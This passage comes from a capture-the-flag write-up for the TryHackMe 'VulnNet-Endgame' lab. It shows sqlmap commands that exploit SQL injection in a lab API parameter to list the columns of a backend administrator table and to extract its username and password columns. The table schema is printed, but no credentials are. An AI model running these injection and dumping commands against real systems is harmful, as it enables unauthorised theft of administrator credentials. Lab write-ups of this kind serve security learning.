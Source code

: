 Table `be_users` looks like is: `backend_users`, **which holds administrator credentials**!

**Enumerate database `vn_admin` table `be_users`'s column names:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-Endgame]
└─# sqlmap -u "http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1" -p blog --dbms=mysql -D vn_admin -T be_users --columns
[...]
Database: vn_admin
Table: be_users
[34 columns]
+-----------------------+----------------------+
| Column                | Type                 |
+-----------------------+----------------------+
| admin                 | smallint(5) unsigned |
| allowed_languages     | varchar(255)         |
| avatar                | int(10) unsigned     |
| category_perms        | text                 |
| crdate                | int(10) unsigned     |
| createdByAction       | int(11)              |
| cruser_id             | int(10) unsigned     |
| db_mountpoints        | text                 |
| deleted               | smallint(5) unsigned |
| description           | text                 |
| disable               | smallint(5) unsigned |
| disableIPlock         | smallint(5) unsigned |
| email                 | varchar(255)         |
| endtime               | int(10) unsigned     |
| file_mountpoints      | text                 |
| file_permissions      | text                 |
| lang                  | varchar(6)           |
| lastlogin             | int(10) unsigned     |
| lockToDomain          | varchar(50)          |
| options               | smallint(5) unsigned |
| password              | varchar(100)         |
| pid                   | int(10) unsigned     |
| realName              | varchar(80)          |
| starttime             | int(10) unsigned     |
| TSconfig              | text                 |
| tstamp                | int(10) unsigned     |
| uc                    | mediumblob           |
| uid                   | int(10) unsigned     |
| usergroup             | varchar(255)         |
| usergroup_cached_list | text                 |
| userMods              | text                 |
| username              | varchar(50)          |
| workspace_id          | int(11)              |
| workspace_perms       | smallint(6)          |
+-----------------------+----------------------+
```

**Let's extract username and password column!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-Endgame]
└─# sqlmap -u "http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1" -p blog --dbms=mysql -D vn_admin -T be_users -C username,password
[...]
[00:59:53] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/api.vulnnet.thm'
```
